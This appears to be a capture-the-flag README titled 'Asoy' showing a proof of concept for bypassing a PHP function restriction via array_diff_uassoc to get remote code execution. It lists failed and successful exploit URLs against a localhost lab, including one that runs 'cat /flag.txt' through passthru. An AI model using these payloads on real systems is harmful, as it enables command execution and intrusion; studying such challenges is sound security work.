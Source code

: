 # Asoy
Function limitation bypass via array_diff_uassoc leads to RCE

# POC
Normal: 
- http://localhost:15236/?function_name=reflectUserInput&param1[]=1&param1[]=2&param2[]=1&param2[]=2&param3=hehehe

Failed Exploit: 
- http://localhost:15236/?function_name=PaSStHru&param1[]=touch hubla.txt&param2[]=999&param3=hehehe
- http://localhost:15236/?function_name=call_user_func_array&param1[]=system&param2[]=123&param3=ls

Successful Exploit: 
- http://localhost:15236/?function_name=array_diff_uassoc&param1[cat /flag.txt]=999&param2[something]=999&param3=passthru